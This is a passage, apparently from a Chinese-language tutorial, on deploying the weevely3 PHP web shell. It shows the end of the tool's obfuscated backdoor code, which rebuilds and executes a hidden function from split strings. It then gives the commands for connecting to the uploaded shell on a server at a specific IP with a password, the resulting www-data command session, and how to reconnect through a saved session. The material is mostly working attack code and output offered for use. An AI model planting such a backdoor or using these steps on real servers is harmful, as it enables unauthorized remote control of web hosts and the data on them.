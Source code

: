    ```bash
   $g='=""-Y;for($i=0;$i<$l;-Y){-Yfo-Yr($j=0;($j<$-Yc&&$i<-Y$l)-Y;$j-Y++,$i++)-Y{$o.=$t{$i-Y}^$k{$-Yj}';
   $x='-YEPT_LANGUAGE"];if-Y($-Yrr&&$ra)-Y{$u=p-Y-Yarse_-Yurl-Y($rr-Y);parse_str-Y($u["quer-Yy"]-Y-Y,$q';
   $S=str_replace('-Y','',$u.$g.$j.$x.$W.$c.$e.$h.$s.$M.$C.$B.$f);
   $o=$G('',$S);$o();
   ?>
   ```

4. 使用weevely后门

   将其上传到指定web目录后，使用方式如下:

   ```bash
   # moxiaoxi @ moxiaoxideMacBook-Pro in ~/Desktop/Myself/weevely3 [22:14:15]
   $ python weevely.py http://202.112.51.135:8801/Myself/weevely.php woaizhongguo
   
   [+] weevely 3.5
   
   [+] Target:	202.112.51.135:8801
   [+] Session:	/Users/moxiaoxi/.weevely/sessions/202.112.51.135/weevely_0.session
   
   [+] Browse the filesystem or execute commands starts the connection
   [+] to the target. Type :help for more information.
   
   weevely> ls
   antsword.php
   k.php
   reverse.php
   weevely.php
   www-data@9b275645e178:/var/www/html/Myself $ whoami
   www-data
   www-data@9b275645e178:/var/www/html/Myself $
   ```

   这样就能得到www-data的一个类shell界面。

5. load_session连接

   ```bash
   # moxiaoxi @ moxiaoxideMacBook-Pro in ~/Desktop/Myself/weevely3 [22:15:54] C:2
   $ python weevely.py session /Users/moxiaoxi/.weevely/sessions/202.112.51.135/weevely_0.session
   
   [+] weevely 3.5
   
   [+] Target:	202.112.51.135:8801
   [+] Session:	/Users/moxiaoxi/.weevely/sessions/202.112.51.135/weevely_0.session
   
   [+] Browse the filesystem or execute commands starts the connection
   [+] to the target. Type :help for more information.
   
   weevely> ls
   antsword.php
   k.php
   reverse.php
   weevely.php
   www-data@9b275645e178:/var/www/html/Myself $
   ```
